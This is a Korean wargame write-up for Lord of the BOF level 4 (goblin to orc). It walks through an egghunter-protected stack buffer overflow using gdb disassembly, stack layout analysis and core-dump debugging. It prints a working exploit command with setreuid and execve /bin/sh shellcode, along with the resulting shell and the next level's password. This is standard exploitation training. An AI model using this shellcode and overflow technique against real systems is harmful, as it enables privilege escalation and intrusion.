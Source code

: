 ```yaml
---
title: LOB 4번 goblin -> orc Write-up
date: 2017-9-9 9:35:00
categories: LOB
tags: LOB, goblin, orc, egghunter
---
```


## LOB 4번

    [goblin@localhost goblin]$ bash2
    [goblin@localhost goblin]$ ls -l
    total 20
    -rwsr-sr-x    1 orc      orc         12567 Feb 26  2010 orc
    -rw-r--r--    1 root     root          505 Mar 29  2010 orc.c
    [goblin@localhost goblin]$ cat orc.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - orc
            - egghunter
    */
    
    #include <stdio.h>
    #include <stdlib.h>
    
    extern char **environ;
    
    main(int argc, char *argv[])
    {
            char buffer[40];
            int i;
    
            if(argc < 2){
                    printf("argv error\n");
                    exit(0);
            }
    
            // egghunter
            for(i=0; environ[i]; i++)
                    memset(environ[i], 0, strlen(environ[i]));
    
            if(argv[1][47] != '\xbf')
            {
                    printf("stack is still your friend.\n");
                    exit(0);
            }
    
            strcpy(buffer, argv[1]);
            printf("%s\n", buffer);
    }

###  제약사항
EggHunter란 메모리에서 egg, 즉 특정한 값을 찾는 코드라고 생각하면 된다.
첫줄에 있는 `extern char **environ`은 환경변수에 대한 리스트 포인터이며 바로 뒤에 나오는 `//egghunter`에서 for문을 돌리면서 NULL값이 나올 때까지 값을 모두 0으로 덮어씌운다. 따라서 환경변수를 사용할 수 없는 것이다.

또한 `argv[1][47] != '\xbf'`이 부분에서 전달받은 인자값의 48번째 값이 \xbf가 아닐 경우 프로그램을 끊어 버리므로 덮어쓸때 \xbf로 입력해 주어야 한다.

    [goblin@localhost goblin]$ cp orc orc1
    [goblin@localhost goblin]$ ls
    orc  orc.c  orc1
    [goblin@localhost goblin]$ gdb orc1
    GNU gdb 19991004
    Copyright 1998 Free Software Foundation, Inc.
    GDB is free software, covered by the GNU General Public License, and you are
    welcome to change it and/or distribute copies of it under certain conditions.
    Type "show copying" to see the conditions.
    There is absolutely no warranty for GDB.  Type "show warranty" for details.
    This GDB was configured as "i386-redhat-linux"...
    (gdb) disass main
    Dump of assembler code for function main:
    0x8048500 <main>:       push   %ebp
    0x8048501 <main+1>:     mov    %esp,%ebp
    0x8048503 <main+3>:     sub    $0x2c,%esp
    0x8048506 <main+6>:     cmpl   $0x1,0x8(%ebp)
    0x804850a <main+10>:    jg     0x8048523 <main+35>
    0x804850c <main+12>:    push   $0x8048630
    0x8048511 <main+17>:    call   0x8048410 <printf>
    0x8048516 <main+22>:    add    $0x4,%esp
    0x8048519 <main+25>:    push   $0x0
    0x804851b <main+27>:    call   0x8048420 <exit>
    0x8048520 <main+32>:    add    $0x4,%esp
    0x8048523 <main+35>:    nop
    0x8048524 <main+36>:    movl   $0x0,0xffffffd4(%ebp)
    0x804852b <main+43>:    nop
    0x804852c <main+44>:    lea    0x0(%esi,1),%esi
    0x8048530 <main+48>:    mov    0xffffffd4(%ebp),%eax
    0x8048533 <main+51>:    lea    0x0(,%eax,4),%edx
    0x804853a <main+58>:    mov    0x8049750,%eax
    0x804853f <main+63>:    cmpl   $0x0,(%eax,%edx,1)
    0x8048543 <main+67>:    jne    0x8048547 <main+71>
    0x8048545 <main+69>:    jmp    0x8048587 <main+135>
    0x8048547 <main+71>:    mov    0xffffffd4(%ebp),%eax

40바이트의 버퍼와 4바이트의 정수형 변수를 확보하므로 gdb에서 확인할 수 있듯이 0x2c, 즉 44바이트를 확보하고 있다.
따라서 메모리구조는 아래와 같다.

|buffer(40byte)|i(4byte)|SFP(4byte)|RET(4byte)|

    [goblin@localhost goblin]$ ./orc `python -c 'print "\x90" * 50'`
    stack is still your friend.
    [goblin@localhost goblin]$ ./orc `python -c 'print "\x90"*47 + "\xbf"'`
    ¿
    Segmentation fault

이처럼 `argv[1][47]`, 즉 48번째 값이 `\xbf`가 되어야만 Segmentation Fault가 나온다. \xbf는 레드햇에서 스택의 시작 주소로 RET의 시작값이 \xbf인지 확인하는 것이다.

    printf("%p\n", buffer);
    
이 한줄의 코드는 buffer의 메모리 주소를 출력해주는 코드로, if문 앞에 넣어 주었다.

    [goblin@localhost goblin]$ ./orc1 1234
    0xbffffb40
    stack is still your friend.

이렇게 buffer의 주소가 나오긴 나왔는데 익스플로잇이 잘 안되어서 코어 파일로 주소를 다시 받아봤다.

    [goblin@localhost goblin]$ ./orc1 `python -c 'print "\x90"*44+"\x04\xfa\xff\xbf"+"A"*256+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80"'`
    
    0xbffff9d0
    릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱?풞AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1육1?됁돿1육F?
    Illegal instruction (core dumped)

이렇게 코어 파일을 생성한 후 gdb로 분석하면 된다.

    (gdb) x/20s $esp


    [goblin@localhost goblin]$ ./orc `python -c 'print "\x90"*44+"\xc7\xfa\xff\xbf"+"\x90"*256+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
    릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱혓퓧릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱?릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱1육1?됁돿1육F?1픐h//shh/bin됥PS됣1柰
                          ?
    bash$ id
    uid=504(orc) gid=503(goblin) egid=504(orc) groups=503(goblin)
    bash$ my-pass
    euid = 504
    cantata

